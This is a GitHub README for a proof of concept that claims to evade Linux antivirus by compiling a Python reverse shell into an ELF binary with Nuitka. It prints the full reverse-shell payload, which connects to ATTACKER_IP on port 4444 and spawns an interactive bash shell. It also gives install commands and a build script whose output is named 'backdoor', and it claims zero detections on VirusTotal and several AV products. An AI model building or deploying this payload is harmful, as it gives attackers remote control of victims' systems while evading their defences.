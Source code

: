 # 🛡️ Undetected ELF Payload (AV Bypass) via Python Compilation (Nuitka Only)

This proof-of-concept demonstrates a method to bypass antivirus detection on Linux by compiling a Python reverse shell into an ELF binary using [Nuitka](https://github.com/Nuitka/Nuitka). The compiled payload remains undetected by major antivirus engines, including on VirusTotal.

> 📌 CVE submission in progress.

---

## 🚀 Summary

- 💻 Payload: Python reverse shell
- ⚙️ Method: Python → ELF using Nuitka only
- 🧩 Obfuscation: No extra strip or packing applied
- 🛡️ Result: 0 detections on VirusTotal (at the time of testing)

---

## 📦 PoC Files

| File | Description |
|------|-------------|
| `payload.py` | Python reverse shell |
| `build.sh` | Simple build script using Nuitka |
| `dist/payload` | Final compiled ELF binary |
| `vt-scan.jpg` | VirusTotal scan result showing 0 detections |
| `backdoor` | The Backdoor in the virus total  sha256: df60a181ceba07d35350fb7d754f239685996b40ea24d155a82344f7fd52b651|

---

## 🧪 Tested Against

- ✅ VirusTotal (0/65 engines detected)
- ✅ Kaspersky Linux Endpoint
- ✅ ClamAV
- ✅ Windows Defender (via WSL)

---
## Proof of Concept

The following scan result shows no AV detected the compiled ELF:

![VirusTotal Scan](https://raw.githubusercontent.com/00xCanelo/ELF-AV-Bypass/refs/heads/main/vt-scan.png)

---
## 🔧 Build Instructions

```bash
sudo apt update
sudo apt install python3 python3-pip gcc g++ -y
pip3 install nuitka

# Compile the Python file into an ELF binary
bash build.sh
```
---
## 🐍 payload.py
```bash
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("ATTACKER_IP",4444))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
subprocess.call(["/bin/bash","-i"])
```
Replace ATTACKER_IP with your ip 
---
## 🔨 build.sh
```bash
#!/bin/bash

python -m nuitka --onefile --standalone --remove-output --output-filename=backdoor backdoor.py
mkdir -p dist
mv backdoor dist/payload
```

👤 Credits

Discovered and developed by:
Mohamed Aly (00xCanelo)
🔗 https://github.com/00xCanelo

